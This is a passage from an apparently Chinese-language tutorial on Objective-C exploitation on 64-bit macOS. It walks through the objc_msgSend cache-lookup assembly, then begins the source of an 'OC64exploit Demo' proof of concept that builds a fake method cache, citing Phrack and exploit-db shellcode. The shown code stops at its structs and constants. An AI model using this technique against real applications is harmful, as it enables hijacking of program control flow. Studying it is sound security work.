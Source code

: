 ```
.endif
    jne     1b          //     scan more
    // CacheHit must always be preceded by a not-taken `jne` instruction
    CacheHit $0         // call or return imp
</code></pre>

其中的CacheHit就是在sel匹配成功后跳转到imp，从中可以看出mask的具体使用方法。

    andl    24(%r11), %r10d     // r10 = _cmd & class->cache.mask
    shlq    $$4, %r10       // r10 = offset = (_cmd & mask)<<4
    addq    16(%r11), %r10      // r10 = class->cache.buckets + offset

```

sel和mask进行了andl操作，命令andl操作数是32位。而且后面的操作数时％r10d，表示的是r10的低32位。r10的高32位应该不变。但是读者在调试的时候可能会发现证明r10的高32位也置零了。

关于这里大家就需要查查Intel的手册。有这样一句：

• 32-bit operands generate a 32-bit result, zero-extended to a 64-bit result in the destination general-purpose register.

由此可见，andl命令会将结果扩展到64位。

之后，将与后的结果左移4位得到offset。将offset加到buckets的上。

初始时offset就指向来整个数组的最后。通过subq命令递减。

```
subq    $$16, %r10      // bucket--

```

从后向前来遍历buckets数组。如果命中了sel就可以跳到imp了。16就是我们bucket_t结构的大小。 说了这么多。接下来就来看看代码。

0x04 具体代码及细节说明
=====

完整代码如下：

```
/*
*   main.m
*   OC64exploit Demo
*
*   Author:    vvun91e0n
*   Date:      2015-05-25
*   Tested on: Mac OS X 10.10.3 （Darwin kernel version 14.3.0）& 10.10.4
*   Base on: nemo's source code @ www.phrack.com/papers/modern_objc_exploitation.html
*   Shellcode on: Dustin Schultz‘source code @ www.exploit－db.com/exploits/15618
*/

#import <Foundation/Foundation.h>
#define NUMBUCKETS 0x20000
#define MASK  0x20000
#define BASESEL 0x7fff80000509     //0x7fff907bb509 my "length" sel address
                                   //may change in different os or different app

struct fakecache {
    char pad[0x10];
    long bucketptr;
    long mask;
};

struct cacheentry {
    long sel;
    long rip;
};
```
